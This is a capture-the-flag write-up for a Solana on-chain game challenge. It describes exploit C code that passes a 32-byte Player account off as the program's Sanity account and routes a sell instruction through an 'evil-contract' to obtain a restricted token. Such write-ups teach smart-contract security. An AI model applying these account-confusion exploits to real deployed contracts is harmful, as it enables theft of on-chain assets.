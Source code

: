 That being said, I can directly use the origin `item1337` token account, which already has 1 `item1337` token in it, to fight and kill the monster1337.

```c
uint64_t hacker(SolParameters *params)
{
  sol_assert(params->ka_num == ACCOUNT_CNT);
  sol_log("[+] About to pwn !");
  create_player(params);
  fight1337(params);
  sol_log("[+] pwned !");
  return SUCCESS;
}
```

Relevant solve scripts lies in folder [sovle2](/solve2/). 

## Intended Solve

I finally come up with the intended solution, aka, using the `evil-contract`. It is correct that we need to fake the `sanity` account to the address of `evil-contract`. After that, we can get 1 `item1337` token by calling `sell()` instruction, which will delegate the call to the `evil-contarct`, which then swap the account order and call the `spl-token` program.

But how to? We cannot use the `initialize` function, which is the only place to edit the `sanity` account.

Some [checks](source/programs/src/darksols/darksols.c#L187) on the size of the `sanity` account serves as hint to me.

```c
sol_assert(sanity_acc->data_len == sizeof(Sanity));
```

I must find some data structure who has the same size of the `Sanity` structure(32 bytes), and it turns out that the `Player` struct comes to rescue.

```c
typedef struct {
  uint8_t health;
  uint8_t mana;
  char name[30];
} Player;
```

It is now clear that the length of the `name` buffer is carefully prepared just to make its size equal to 32 bytes. This `Player` account is owned by the program, and can pass all the checks on the original `sanity` account.

We just need to copy the last 30 bytes of pubkey of `evil-contract`(which is fixed) into the name buffer and use `fight` function to adjust the first two bytes until it equals to the first two bytes of the pubkey of `evil-contract`.

```c
uint64_t hacker(SolParameters *params)
{
  sol_assert(params->ka_num == ACCOUNT_CNT);
  sol_log("[+] About to pwn !");
  create_player(params);
  fight_to_sanity_health(params);
  buy(params);
  fight_to_sanity_mana(params);

  /* now player account can be used as sanity account
     use sell instruction to get 1 item1337 token */
  get_1337(params);

  /* now fight the 1337 monster and get the reward */
  fight1337(params);
```